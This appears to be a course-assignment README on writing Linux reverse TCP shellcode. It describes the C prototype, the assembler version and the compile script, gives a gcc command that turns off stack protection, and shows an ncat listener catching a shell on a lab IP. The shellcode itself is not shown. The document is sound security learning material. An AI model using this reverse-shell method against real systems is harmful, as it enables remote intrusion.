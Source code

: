 Assignment 2
============

* create a reverse TCP shellcode:
    * reverse connects to configured IP and port
    * execs shell on successful connection
* IP and port should be easily configurable


Reverse shell prototype in C
----------------------------

Reverse shell C program can reuse most of the code introduced in the 1st
assignment. General work flow for connecting to remote server is following:

1. Create socket using `socket()` call
2. Connect to remote server using `connect()` call

Function `connect()` is prototyped in the following way (`man 2 connect`):

    int connect(int sockfd, const struct sockaddr *serv_addr, socklen_t addrlen);

Function arguments can be defined in the same manner as in `bind()` call, this
time however address of remote peer must be included:

    // peer IP address (network byte order)
    sin_addr.s_addr = inet_addr(IP)

Complete version of program can be found in file named `revshell.c`.

It should be noted that presented code doesn't follow best practices, e.g. at no
point are return values checked for errors. It was meant only to be used as a
template for further work on assembler version.


Reverse shell in assembler
--------------------------

Commented assembler version of `revshell.c` can be found in file called
`revshell.asm`.


Compilation
-----------

`compile.sh` script can be used to set IP and port, compile and link. For
example file `revshell.asm` can be compiled to executable which will then
connect to host 192.168.15.1 and TCP port 4444 with following command:

    ./compile.sh revshell.asm 192.168.15.1 4444

Script will also print shellcode and its length. Shellcode itself can be placed
in file `run_shellcode.c` and then compiled with:

    gcc -fno-stack-protector -z execstack -o run_shellcode run_shellcode.c

Note that some IP and port values can result in null bytes to be present in
shellcode.


Testing
-------

Execute listener (e.g. `ncat -nvl 192.168.15.1 4444`) and `./run_shellcode`:

    $ ncat -nvl 192.168.15.1 4444
    Ncat: Version 6.25 ( http://nmap.org/ncat )
    Ncat: Listening on 192.168.15.1:4444
    Ncat: Connection from 192.168.15.1.
    Ncat: Connection from 192.168.15.1:52008.
    cowsay -p moooo
     _______ 
    < moooo >
     ------- 
            \   ^__^
             \  (@@)\_______
                (__)\       )\/\
                    ||----w |
                    ||     ||


References
----------

* [Linux System Call Table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html)
* [Programming IP Sockets on Linux, Part One](http://gnosis.cx/publish/programming/sockets.html)
* [Writing shellcode for Linux and BSD](http://www.kernel-panic.it/security/shellcode/)


<!---
vim: set textwidth=80 wrapmargin=2:
-->
